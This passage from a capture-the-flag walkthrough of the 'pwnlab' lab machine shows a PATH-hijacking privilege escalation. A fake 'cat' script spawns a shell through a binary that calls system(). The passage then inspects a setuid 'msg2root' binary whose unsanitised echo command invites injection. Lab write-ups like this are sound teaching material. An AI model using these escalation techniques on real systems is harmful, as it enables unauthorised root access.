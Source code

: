 Are you thinking what I'm thinking? `msgmike` might be doing the following code:  
```C9
int main()  
{  
      system("cat /home/mike/msg.txt");  
}  
```

This is very poorly configured as `cat` command is found by searching for files with that specific name in the `PATH` environment variable. If we create a script called `cat` in a certain directory and override the `PATH` variable, we might be able to get a shell for use mike!

*If you're interested in such problems, check out root-me.org's system problems!*

```console
kane@pwnlab:~$ echo "/bin/bash" > cat  
echo "/bin/bash #" > cat  
kane@pwnlab:~$ chmod 777 cat  
chmod 777 cat  
kane@pwnlab:~$ export PATH=/home/kane  
export PATH=/home/kane  
kane@pwnlab:~$ ./msgmike  
./msgmike  
bash: dircolors: command not found  
bash: ls: command not found  
mike@pwnlab:~$   
```

#### 4\. Running as mike and becoming ~~god~~ root

You'll need to reset the PATH variable first.  

```console
mike@pwnlab:~$ export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin  
mike@pwnlab:~$ cd ../mike  
cd ../mike  
mike@pwnlab:/home/mike$ ls -al  
ls -al  
total 28  
drwxr-x--- 2 mike mike 4096 Mar 17  2016 .  
drwxr-xr-x 6 root root 4096 Mar 17  2016 ..  
-rw-r--r-- 1 mike mike  220 Mar 17  2016 .bash_logout  
-rw-r--r-- 1 mike mike 3515 Mar 17  2016 .bashrc  
-rwsr-sr-x 1 root root 5364 Mar 17  2016 msg2root  
-rw-r--r-- 1 mike mike  675 Mar 17  2016 .profile  
mike@pwnlab:/home/mike$ ./msg2root  
./msg2root  
Message for root: wanna hook?  
wanna hook?  
wanna hook?  
mike@pwnlab:/home/mike$ strings msg2root  
strings msg2root  
...  
Message for root:   
/bin/echo %s >> /root/messages.txt  
...  
mike@pwnlab:/home/mike$   
```
